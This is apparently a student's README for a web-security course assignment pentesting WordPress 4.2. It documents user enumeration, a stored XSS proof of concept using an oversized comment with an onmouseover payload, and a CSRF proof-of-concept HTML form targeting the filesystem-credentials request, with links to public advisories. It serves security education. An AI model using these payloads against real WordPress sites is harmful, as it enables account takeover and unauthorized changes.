



# Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **(at most) five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID: User Enumeration
  - [X] Summary: 
    - Vulnerability types:User Enumeration
    - Tested in version:4.2 (en_US)
    - Fixed in version: N/A
  - [X] GIF Walkthrough: 
  - [X] Steps to recreate: 
    - Go to the WP login page
    - when you input the valid username(such as 'admin'), it shows " the password for (username) is not correct"
    - when you input the invalid username , it will tell you the username is invalid
  - [X] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

2. (Required) WordPress 4.2 Stored XSS
  - [X] Summary: 
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.1
  - [X] GIF Walkthrough: 
  - [X] Steps to recreate: 
    -Create a new comment with script and make sure the comment exceeds 64kb of length, here is the proof of concepts:
    ```
    <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
    ```
  - [X] Affected source code:
    - [Link 2](https://klikki.fi/adv/wordpress2.html)

3. (Required) Cross-Site Request Forgery in WordPress Connection Information
  - [X] Summary: 
    - Vulnerability types:CSRF
    - Tested in version:4.2
    - Fixed in version: 4.7.5
  - [X] GIF Walkthrough: 
  - [X] Steps to recreate: 
    -This issue exists in the method request_filesystem_credentials() (/wp-admin/includes/file.php). So here is a proof of concepts:
    ```
    <html>
      <body>
          <form action="http://<target>/wp-admin/plugins.php" method="POST">
            <input type="hidden" name="hostname" value="sumofpwn.nl" />
            <input type="hidden" name="connection_type" value="ftp" />
            <input type="hidden" name="password" value="password" />
            <input type="submit" value="Submit request" />
          </form>
      </body>
    </html>
    ```
  - [X] Affected source code:
    - [Link 3](https://sumofpwn.nl/advisory/2016/cross_site_request_forgery_in_wordpress_connection_information.html)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2018] [Zhiwei Huang]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.# WebSecurity_Week7_Assignment
